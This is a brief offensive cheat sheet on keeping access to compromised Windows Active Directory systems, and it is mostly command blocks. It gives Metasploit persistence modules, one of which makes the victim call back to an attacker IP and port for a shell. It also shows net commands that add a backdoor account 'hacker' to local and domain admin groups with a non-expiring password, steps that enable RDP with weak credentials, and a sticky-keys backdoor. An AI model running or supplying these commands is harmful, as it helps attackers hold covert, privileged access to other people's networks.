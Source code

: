 # Windows AD Persistence

Persistence techniques allow an attacker to maintain access to a compromised system. This cheat sheet provides various methods for achieving persistence using Metasploit and other techniques.

### Persistence with Metasploit Backdoor

***

**Once you have a Meterpreter Session.** Configure the module.

```bash
background use exploit/windows/local/persistence 
set session 1 run
```

### Persistence with Metasploit Script

***

**Once you have a Meterpreter Session.** Configure the module:

```bash
run persistence -h 
run persistence -r 192.168.20.9 -p 2345 -U
```

### Persistence with Creating Local Users

***

Create a user and add it to domain and administrators groups:

```bash
net user hacker Hcker_12345678* /add /Y
net localgroup administrators hacker /add 
net localgroup "Remote Desktop Users" hacker /add 
# RDP access
net localgroup "Backup Operators" hacker /add  
# Full access to files
net group "Domain Admins" hacker /add /domain
# Enable a domain user account 
net user hacker /ACTIVE:YES /domain net user hacker /Expires:Never
```

### Enable RDP in Windows Machine via Meterpreter

***

```bash
run getgui -e -u EVIL -p 123 
use post/windows/manage/enable_rdp 
set username EVIL set password 123 
set session 1 exploit
```

### Persistence with RDP Session

***

```bash
use post/windows/manage/sticky_keys
set session 1 exploit`
```
